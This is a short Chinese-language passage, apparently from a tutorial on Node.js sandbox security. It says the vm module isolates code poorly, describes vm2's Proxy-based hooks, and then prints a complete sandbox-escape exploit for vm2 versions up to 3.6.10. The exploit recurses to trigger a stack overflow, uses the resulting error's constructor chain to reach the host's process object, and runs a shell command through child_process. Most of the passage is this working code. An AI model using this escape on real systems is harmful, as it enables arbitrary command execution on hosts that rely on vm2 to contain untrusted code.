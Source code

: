 从上面可以看出vm沙箱的隔离功能太差劲了。

第三方包vm2在vm的基础上做了一些优化。



vm2相比vm做出很大的改进，其中之一就是利用了es6新增的proxy特性，从而使用钩子拦截对`constructor`和`__proto__`这些属性的访问。



vm2版本<=3.6.10

```javascript
const {VM} = require('vm2');
const untrusted = `
const f = Buffer.prototype.write;
const ft = {
        length: 10,
        utf8Write(){
        }
}
function r(i){
    var x = 0;
    try{
        x = r(i);
    }catch(e){}
    if(typeof(x)!=='number')
        return x;
    if(x!==i)
        return x+1;
    try{
        f.call(ft);
    }catch(e){
        return e;
    }
    return null;
}
var i=1;
while(1){
    try{
        i=r(i).constructor.constructor("return process")();
        break;
    }catch(x){
        i++;
    }
}
i.mainModule.require("child_process").execSync("whoami").toString()
`;
try{
    console.log(new VM().run(untrusted));
}catch(x){
    console.log(x);
}
```
